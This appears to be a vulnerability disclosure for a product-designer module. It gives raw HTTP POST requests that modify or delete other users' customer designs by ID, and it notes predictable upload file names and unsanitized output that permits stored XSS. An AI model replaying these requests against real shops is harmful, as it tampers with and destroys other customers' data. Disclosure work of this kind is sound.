 ## Modify files uploaded by other users

Uploaded file names are generally prefixed with the current UNIX timestamp, as returned by `time()`.
There is no attempt to randomize the prefix or to avoid collisions with other users uploading at the same time.

## Modify designs created by other users

### Request:
```
POST https://testing.local.tld/pdp/customerdesign/updateDesignDetails/ HTTP/1.1
Content-Type: multipart/form-data; boundary=-------------------------acebdf13572468

---------------------------acebdf13572468
Content-Disposition: form-data; name="id"

2
---------------------------acebdf13572468
Content-Disposition: form-data; name="note"

xyzzyx
---------------------------acebdf13572468--
```

### Response:
302 redirect.

Modifies the details of an existing customer design with given ID.

These design details are displayed to the customer who created it without proper sanitization,
which permits XSS and other fun attacks. 


## Delete designs created by other users

### Request:
```
POST https://testing.local.tld/pdp/customerdesign/delete/ HTTP/1.1
Content-Type: multipart/form-data; boundary=-------------------------acebdf13572468

---------------------------acebdf13572468
Content-Disposition: form-data; name="id"

2
---------------------------acebdf13572468--
```

### Response:
302 redirect.

Deletes the existing customer design with given ID from the database.

